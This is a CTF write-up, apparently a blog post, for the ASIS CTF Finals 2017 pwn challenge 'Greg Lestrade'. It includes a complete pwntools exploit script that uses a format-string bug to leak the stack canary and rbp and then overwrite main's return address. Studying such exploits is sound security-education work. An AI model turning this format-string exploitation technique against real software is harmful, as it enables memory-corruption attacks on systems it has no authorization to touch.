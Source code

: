 ```yaml
---
layout: post
redirect_from:
  - /blog/2017/09/11/asis-ctf-finals-2017-greg-lestrade/
date: "2017-09-11T08:09:22+09:00"
tags: [ "ctf", "writeup", "pwn", "asis-ctf" ]
---
```


# ASIS CTF Finals 2017: Greg Lestrade

他の問題が解けないのでプロが放置してたやるだけをやってお茶を濁した回2。

## problem

```
$ nc 146.185.132.36 12431
[*] Welcome admin login system! 

Login with your credential...
Credential : 7h15_15_v3ry_53cr37_1_7h1nk
0) exit
1) admin action
1
[*] Hello, admin 
Give me your command : 
```

## solution

Rewrite the return address of `main` with the flag function.
Use the format-string bug to read `rbp` and to rewrite it.

There is a bufferoverflow bug at reading credential, but it is not used.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='146.185.132.36')
parser.add_argument('port', nargs='?', default=12431, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='./greg_lestrade')
args = parser.parse_args()
context.log_level = args.log_level
context.binary = args.binary
elf = ELF(args.binary)

credential = '7h15_15_v3ry_53cr37_1_7h1nk'
system_cat_flag = 0x400876
p = remote(args.host, args.port)
# p = process(args.binary)

p.sendlineafter('Credential : ', credential)

menu = '''\
0) exit
1) admin action
'''
p.sendlineafter(menu, '1')
payload = ''
payload += 'a' * 256
payload += '/%137$p/%138$p/'
p.sendlineafter('Give me your command : ', payload)
s = p.recvline()
canary = int(s.split('/')[1], 16)
rbp = int(s.split('/')[2], 16)
log.info('canary = %#x', canary)
log.info('rbp = %#x', rbp)

retaddr = rbp + 8
for i, c in enumerate(p64(system_cat_flag)):
    p.sendlineafter(menu, '1')
    payload = ''
    payload += 'a' * 256
    payload += '%' + str(ord(c) + 256) + 'c'
    payload += '%42$hhn'
    payload += ' ' * (256 + 16 - len(payload))
    payload += p64(retaddr + i)
    p.sendlineafter('Give me your command : ', payload)

p.interactive()
```
